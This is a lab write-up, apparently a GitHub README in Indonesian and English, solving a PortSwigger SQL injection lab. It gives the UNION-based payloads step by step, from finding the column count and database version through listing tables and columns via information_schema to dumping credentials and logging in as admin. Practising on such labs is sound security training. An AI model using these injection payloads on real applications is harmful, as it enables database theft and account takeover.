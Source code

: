 Sumber Soal :
Portswigger Lab SQL injection attack, listing the database contents on non-Oracle databases
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. To solve the lab, log in as the administrator user. 

1. Tentukan jumlah kolom `' order by 1--`
   <img width="1381" height="612" alt="image" src="https://github.com/user-attachments/assets/fa3a9436-d7d5-477e-8263-8fe44c0d336f" /> <br />
   Ketika mencoba kolom ke 3, muncul internal server error yang berarti hanya terdapat 2 kolom <br />
   <img width="1257" height="783" alt="image" src="https://github.com/user-attachments/assets/8e246761-a3a6-4c13-8855-04077d6d9e57" />

2. Tentukan tipe data kolom `' UNION select 'a', 'a'--`
   <img width="1232" height="728" alt="image" src="https://github.com/user-attachments/assets/d5c98aa3-4386-47cc-b3ef-d9966f96dbe8" /> <br />
   Kedua kolom menerima tipe data teks

3. Tentukan versi database `' UNION SELECT version(), NULL--` query tersebut berhasil menandakan database merupakan PostgreSQL
   <img width="1565" height="867" alt="image" src="https://github.com/user-attachments/assets/67ec6c94-11e8-43cd-a9f4-9be2acb893bd" />

4. Output list tabel names dari database `' UNION SELECT table_name, NULL FROM information_schema.tables--`
   <img width="1197" height="609" alt="image" src="https://github.com/user-attachments/assets/2e98b12d-4bb6-461a-9c2e-b1f080197258" /> <br />
   users_sdhlch

5. Output kolom nama pada tabel `' UNION SELECT column_name, NULL FROM information_schema. columns WHERE table_name = 'users_sdhlch'--`
   <img width="1490" height="799" alt="image" src="https://github.com/user-attachments/assets/0848fd66-2b96-481b-990a-dce844f5d787" /> <br />
   username_krtnri password_qqehom

6. Output Username dan Password `' UNION select username_krtnri, password_qqehom from users_sdhlch--`
   <img width="1355" height="697" alt="image" src="https://github.com/user-attachments/assets/26f5963f-909d-4607-85a8-f8d97f7f2110" />
   Kredensial admin berhasil didapat

7. Login sebagai admin
   <img width="1386" height="872" alt="image" src="https://github.com/user-attachments/assets/6b7c9c61-a4f6-4ebd-a6a5-5164cda12bec" />


   




